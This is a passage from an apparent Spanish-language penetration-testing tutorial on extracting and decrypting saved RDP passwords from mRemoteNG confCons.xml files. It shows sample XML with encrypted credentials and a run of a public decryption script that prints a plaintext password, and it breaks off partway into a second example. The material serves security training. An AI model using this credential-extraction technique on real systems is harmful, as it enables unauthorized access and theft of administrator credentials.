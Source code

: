Veamos el contenido del`confCons.xml`archivo.

#### Archivo de configuración de Mremoteng - Confcons.xml

Código:xml

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

Este documento XML contiene un elemento raíz llamado`Connections`con la información sobre el cifrado utilizado para las credenciales y el atributo`Protected`, que corresponde a la contraseña maestra utilizada para cifrar el documento. Podemos usar esta cadena para intentar descifrar la contraseña maestra. Encontraremos algunos elementos nombrados`Node`Dentro del elemento raíz. Esos nodos contienen detalles sobre el sistema remoto, como nombre de usuario, dominio, nombre de host, protocolo y contraseña. Todos los campos son de texto sin formato, excepto la contraseña, que está encriptada con la contraseña maestra.

Como se mencionó anteriormente, si el usuario no estableció una contraseña maestra personalizada, podemos usar el script[Mremoteng-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)para descifrar la contraseña. Necesitamos copiar el atributo`Password`contenido y úselo con la opción `-s`. Si hay una contraseña maestra y lo sabemos, podemos usar la opción`-p`con la contraseña maestra personalizada para descifrar también la contraseña.

#### Descifrar la contraseña con mremoteng_decrypt

  Expoliación

```shell-session
xnoxos@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

Ahora veamos un archivo de configuración cifrado con una contraseña personalizada. Para este ejemplo, establecemos la contraseña personalizada`admin`.

#### Archivo de configuración de Mremoteng - Confcons.xml

Código:xml

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```
